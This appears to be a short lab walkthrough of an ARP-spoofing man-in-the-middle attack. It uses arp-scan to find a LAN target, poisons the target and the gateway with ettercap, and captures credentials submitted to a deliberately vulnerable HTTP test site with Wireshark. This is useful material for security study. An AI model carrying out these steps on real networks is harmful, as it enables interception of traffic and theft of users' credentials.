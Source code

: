 `ip r`  
```
default via 192.168.1.1 dev eth0 proto dhcp src 192.168.1.105 metric 100 
192.168.1.0/24 dev eth0 proto kernel scope link src 192.168.1.105 metric 100
```
Gateway (router) : 192.168.1.1  


`sudo arp-scan -I eth0 192.168.1.0/24`  
```
Interface: eth0, type: EN10MB, MAC: 08:00:27:50:4c:14, IPv4: 192.168.1.105
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1     f0:51:36:1f:17:96       TCT mobile ltd
192.168.1.102   28:f1:0e:21:14:8d       Dell Inc.
192.168.1.107   c4:85:08:d3:4a:00       Intel Corporate
```
Target: 192.168.1.107  

`sudo ettercap -G`  
open GUI ettercap  
 
Hosts - `scan for hosts` -> Hosts - `host list` -> Found hosts are only `192.168.1.1` and `192.168.1.100` (is [ettercap using other ARP scan techniques than arp-scan?](arp-ettercap.md)) -> Targets - select targets - add `192.168.1.107   c4:85:08:d3:4a:00` as Target1 and  `192.168.1.1     f0:51:36:1f:17:96` as Target2 -> MITM -ARP spoof - `sniff remote connection` -> Plugins - manage plugins - `chk_poison`:  
```
Activating chk_poison plugin...
chk_poison: Checking poisoning status...
chk_poison: Poisoning process successful!
```

open and sniff `wireshark` on `eth0` ->  open [HTTP site](http://testphp.vulnweb.com/login.php) -> pass some credentials on that site -> find credentials in `wireshark` logs  

![arp-spoof](img/arp-spoof.png)
